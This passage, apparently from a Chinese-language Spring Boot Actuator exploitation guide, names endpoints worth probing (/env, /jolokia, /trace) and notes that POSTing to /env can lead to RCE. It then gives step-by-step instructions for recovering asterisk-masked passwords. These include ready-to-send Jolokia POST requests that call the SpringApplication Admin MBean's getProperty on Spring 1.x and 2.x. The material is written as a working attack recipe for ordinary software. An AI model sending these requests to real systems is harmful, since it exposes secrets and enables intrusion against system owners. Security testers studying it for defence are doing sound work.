 

其中对寻找漏洞比较重要接口的有：

- `/env`、`/actuator/env`

  GET 请求 `/env` 会泄露环境变量信息，或者配置中的一些用户名，当程序员的属性名命名不规范 (例如 password 写成 psasword、pwd) 时，会泄露密码明文；

  同时有一定概率可以通过 POST 请求 `/env` 接口设置一些属性，触发相关 RCE 漏洞。

- `/jolokia`

  通过 `/jolokia/list` 接口寻找可以利用的 MBean，触发相关 RCE 漏洞；

- `/trace`

  一些 http 请求包访问跟踪信息，有可能发现有效的 cookie 信息



### 0x03：获取被星号脱敏的密码的明文 (方法一)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）



#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： jolokia 调用相关 Mbean 获取明文

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。



- 调用 `org.springframework.boot` Mbean（**可能更通用**）

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
